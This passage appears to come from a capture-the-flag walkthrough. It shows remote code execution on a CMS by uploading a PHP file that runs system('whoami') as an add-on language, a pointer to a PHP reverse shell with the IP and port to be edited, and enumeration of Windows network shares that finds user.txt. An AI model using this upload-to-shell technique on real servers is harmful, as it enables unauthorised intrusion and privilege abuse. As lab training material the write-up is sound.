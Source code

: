 To get RCE, navigate to **Add-ons**, then **Languages**, and **install a language**. 
![[cms-admin-dashboard.png]] 
Let’s try a simple payload:
```php
<?php system('whoami');?>
```
Write this to a PHP file, upload it, and click **Install**. 
![[cms-rce.png]]
The exploit succeeded! We got `nt authority\system`, which grants the highest privilege on the system.
### Reverse Shell
For a reverse shell, I used this exploit:
- https://github.com/ivan-sincek/php-reverse-shell
Modify port and IP and repeat the steps:
![[cms-reverse-shell.png]]
# Windows Enumeration
Let's check Desktop of the **windoclin** user:
![[windows-enum.png]]
We find a shortcut to a folder located in a network share: `\\host.lan`.
```powershell
net view \\host.lan
# gives
...
Data        Disk           Shared
...

# next, mount the share
net use Z: \\host.lan\Data

# cd there
Z:
Z:\>dir
 Volume in drive Z is Data
 Volume Serial Number is AC24-E051

 Directory of Z:\

09/12/2024  09:19 AM    <DIR>          .
09/12/2024  09:19 AM    <DIR>          ..
09/12/2024  02:36 AM        21,846,505 1.6.2.zip
09/12/2024  09:12 AM             2,468 healthy.sh
09/12/2024  10:25 AM               665 prevention.sh
09/12/2024  09:19 AM               166 README.MD
09/11/2024  10:19 AM                 7 user.txt
01/30/2024  11:47 PM    <DIR>          WBCE_CMS-1.6.2
```
Congratulations! We found `user.txt`!
![[windows-shared-folder.png]]
# Windows Docker Escape
Three files interest us:
- `README.MD`
	- It contains `6238383731656632663334623638393836333933353130373530653833323635` which is `b8871ef2f34b68986393510750e83265` decoding from HEX.
````markdown
# A Note from Mr. Windoclin
```
6238383731656632663334623638393836333933353130373530653833323635
```
````